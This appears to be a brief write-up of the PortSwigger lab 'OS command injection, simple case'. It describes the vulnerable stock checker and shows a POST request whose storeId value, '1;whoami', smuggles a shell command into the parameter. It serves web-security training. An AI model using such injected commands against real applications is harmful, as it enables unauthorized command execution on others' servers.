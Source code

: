 
# OS command injection, simple case

This lab contains an OS command injection vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the whoami command to determine the name of the current user.


---------------------------------------------

References: 

- https://portswigger.net/web-security/os-command-injection



![img](images/OS%20command%20injection,%20simple%20case/1.png)

---------------------------------------------






![img](images/OS%20command%20injection,%20simple%20case/2.png)
![img](images/OS%20command%20injection,%20simple%20case/3.png)


```
POST /product/stock HTTP/2
...

productId=1&storeId=1;whoami
```



![img](images/OS%20command%20injection,%20simple%20case/4.png)